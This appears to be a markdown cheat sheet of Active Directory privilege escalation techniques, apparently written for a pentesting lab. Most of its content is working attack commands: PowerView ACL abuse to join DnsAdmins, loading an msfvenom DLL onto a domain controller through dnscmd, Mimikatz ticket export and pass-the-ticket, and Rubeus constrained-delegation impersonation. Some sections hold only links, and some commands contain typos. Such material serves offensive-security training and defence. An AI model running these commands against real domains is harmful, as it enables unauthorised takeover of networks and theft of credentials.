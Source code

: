 # Domain Privilege Escalation

> N.B.: You need a local admin access to do these attacks.

## ACL - Generic All

```powershell
Get-ObjectAcl -SamAccountName DnsAdmins -ResolveGUIDs | ? {($_.ActiveDirectoryRights -match 'GenericAll')}

Get-ObjectAcl -SamAccountName DnsAdmins -ResolveGUIDs | ? {($_.ActiveDirectoryRights -match 'GenericAll') -and ($_.SecurityIdentifier -match 'S-1-55465134614643146434643614646467'}
```
Adding yourself as a member

```powershell
Add-DomainGroupMember -Identity 'DnsAdmins' -Members 'student1' 
Get-DomainUser -name 'student1'
Get-DomainGroup -SamAccountName DnsAdmins
```

## ACL - GenericWrite on User

## PrintNightmare (CVE-2021-34527)

## PrivEsc - DNS Admins 

[DNS Admins PrivEsc Guide by iRedTeam](https://www.ired.team/offensive-security-experiments/active-directory-kerberos-abuse/from-dnsadmins-to-system-to-domain-compromise)
```powershell
#make a privescl.dll with msfvenom
rundll32.exe .\privesc.dll,DnsPluginInitialize

dnscmd dc.pentesting.local /config /serverlevelplungindll \\student\share\privesc.dll

Get-ItemProperty HKLM:\SYSTEM\CurrentControlSet\Services\DNS\Parameters\ -Name ServerLevelPluginDll

sc.exe \\dc01 stop dns
sc.exe \\dc01 start dns
```

## DCSync Attack

* [Mimikatz DCSync Usage, Exploitation, and Detection](https://adsecurity.org/?p=1729) 
* [DC Sync Attacks With Secretsdump.py](https://youtu.be/QfyZQDyeXjQ)

## ZeroLogon (CVE-2020-1472)

* [CrowdStrike's Guide to ZeroLogon](https://www.crowdstrike.com/blog/cve-2020-1472-zerologon-security-advisory/)
* [TheCyberMentor's Video](https://www.youtube.com/watch?v=6xMGsdD-ArI/)

## Unconstrained delegation

* [Hunting in Active Directory: Unconstrained Delegation & Forests Trusts](https://posts.specterops.io/hunting-in-active-directory-unconstrained-delegation-forests-trusts-71f2b33688e1)

```powershell
mimikatz# sekurlsa::tickets
mimikatz# mimikatz::tickets /export
mimikatz# kerberos::ptt C:\Users\Administrator\Desktop\mimikatz\[0;3c785]-2-0-40e10000-Administrator@krbtgt-OFFENSE.LOCAL.kirbi
```


## Constrained Delegation

```powershell
PS C:\> Rubeus.exe tgtdeleg

# ticket is the base64 ticket we get with `rubeus's tgtdeleg`
PS C:\> Rubeus.exe s4u /ticket:doIFCDC[...]TE9DQUw= /impersonateuser:administrator /domain:offense.local /msdsspn:cifs/dc01.offense.local /dc:dc01.offense.local /ptt
```

## Kerberoasting

* [Attack Tutorial: Kerberoasting](https://youtu.be/beRDcvBwTBw)
* [Active Directory - Kerberoasting by Conda](https://youtu.be/-3MxoxdzFNI)
* [Kerberoasting Explained | Kerberos Authentication](https://youtu.be/ajOr4pcx6T0)

## ASPRoasting

* [Harmjoy's Roasting AS-REPs Tutorial](http://www.harmj0y.net/blog/activedirectory/roasting-as-reps/)
* [CRACKING ACTIVE DIRECTORY PASSWORDS WITH AS-REP ROASTING](https://stealthbits.com/blog/cracking-active-directory-passwords-with-as-rep-roasting/)

